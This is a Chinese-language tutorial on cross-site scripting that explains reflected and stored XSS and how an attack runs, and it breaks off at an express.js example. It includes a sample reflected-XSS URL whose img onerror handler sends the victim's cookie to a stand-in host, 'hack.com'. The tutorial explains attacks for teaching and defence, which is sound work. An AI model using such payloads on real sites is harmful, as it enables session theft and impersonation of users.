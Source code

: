 # Web安全之XSS 

### 什么是XSS

> 跨站脚本攻击(Cross Site Scripting)，为不和层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，故将跨站脚本攻击缩写为XSS。恶意攻击者往Web页面里插入恶意Script代码，当用户浏览该页之时，嵌入其中Web里面的Script代码会被执行，从而达到恶意攻击用户的目的。

### XSS的攻击场景

* **反射型**

这类攻击方式主要借助URL来实施。URL的构成分为协议、域名、端口、路径、查询几部分构成。如图所示：

![][0]

XSS往往在“查询”部分发现漏洞构造攻击代码实施攻击，所谓“反射”可以理解为hacker并不会直接攻击客户，而是通过URL植入代码通过服务器获取并植入到用户页面完成攻击。攻击流程图如下：

![][1]
* **存储型**

存储型攻击方式和反射型最大的区别就是不通过URL来传播，而是利用站点本身合法的存储结构，比如评论。任何用户都可以通过站点提供的接口提交评论内容，这些评论内容都被存储到服务器的数据库。当用户访问这些评论的时候，服务器从数据库提取内容插入到页面反馈给用户。如果评论内容本身是具备攻击性内容，用户无一幸免。攻击流程图如下：

![][2]

从上下两个流程图来看，反射型和存储型的攻击方式是本质不同的，前者需要借助各种社交渠道传播具备攻击的URL来实施，后者通过网站本身的存储漏洞，攻击成本低很多，而且伤害力更大。

### XSS的工作原理

不管是反射型还是存储型，服务端都会将JavaScript当做文本处理，这些文本在服务端被整合进html文档中，在浏览器解析这些文本的过程也就是XSS被执行的时候。

从攻击到执行分为以下几步：

1. 构造攻击代码
1. 服务端提取并写入HTML
1. 浏览器解析，XSS执行

##### 构造攻击代码

hacker在发现站点对应的漏洞之后，基本可以确定是使用“反射型”或者“存储型”。对于反射型这个很简单了，执行类似代码：

    https://www.toutiao.com/search?item=<img onerror="new Image().src='//hack.com?c=' src='null'>"  
    

大家知道很多站点都提供搜索服务，这里的item字段就是给服务端提供关键词。如果hacker将关键词修改成可执行的JavaScript语句，如果服务端不加处理直接将类似代码回显到页面，XSS代码就会被执行。

这段代码的含义是告诉浏览器加载一张图片，图片的地址是空，根据加载机制空图片的加载会触发Element的onerror事件，这段代码的onerror事件是将本地cookie传到指定的网站。

很明显，hacker可以拿到“中招”用户的cookie，利用这个身份就可以拿到很多隐私信息和做一些不当的行为了。

对于存储型直接通过读取数据库将内容打到接口上就可以了。

##### 服务端提取并写入HTML

我们以 Node.js 应用型框架express.js为例：


[0]: ../img/908ee4fd6d8cd557.png
[1]: ../img/6a317ebfc5926552.png
[2]: ../img/129df8478ecab65a.png
[3]: ../img/c9484557a54601cf.png
[4]: ../img/b872c3c0d90a95d9.png
[5]: ../img/845d00cb4523e551.png